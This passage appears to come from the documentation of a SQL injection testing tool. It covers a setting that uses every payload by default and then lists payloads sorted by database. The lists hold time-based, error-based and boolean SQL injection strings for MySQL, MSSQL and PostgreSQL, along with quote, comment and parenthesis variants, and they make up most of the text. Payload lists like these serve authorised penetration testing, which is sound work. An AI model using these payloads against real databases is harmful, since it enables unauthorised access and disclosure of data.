 ### ✅ No Limits by Default
Unlike the old version (50 payload limit), now **ALL payloads** from your files are used by default!

```python
# config.py
MAX_PAYLOADS_PER_TEST = None  # Uses ALL payloads
# Or set a specific limit:
MAX_PAYLOADS_PER_TEST = 100   # Uses first 100 after deduplication
```

## Advanced Techniques

### Database-Specific Testing

Organize payloads by database type for targeted testing:

**MySQL Payloads:**
```
# MySQL-specific functions
' AND SLEEP(5)--
' OR SLEEP(5)--
' AND BENCHMARK(5000000,MD5('test'))--
' AND ExtractValue(0,CONCAT(0x5c,@@version))--
' AND UpdateXML(0,CONCAT(0x5c,@@version),0)--
```

**MSSQL Payloads:**
```
# MSSQL-specific functions
' AND WAITFOR DELAY '0:0:5'--
' OR WAITFOR DELAY '0:0:5'--
' AND 1=CONVERT(int,(SELECT @@version))--
' AND 1=CONVERT(int,(SELECT db_name()))--
```

**PostgreSQL Payloads:**
```
# PostgreSQL-specific functions
' AND pg_sleep(5)--
' OR pg_sleep(5)--
' AND 1=CAST((SELECT version()) AS int)--
' AND 1=CAST((SELECT current_user) AS int)--
```

### Payload Variations

Test different quote and comment styles:

```
# Single quote variations
' OR 1=1--
' OR 1=1#
' OR 1=1/*
' OR 1=1;--

# Double quote variations
" OR 1=1--
" OR "1"="1
" OR "1"="1"--

# Parenthesis variations
') OR ('1'='1
')) OR (('1'='1
') OR 1=1--
```
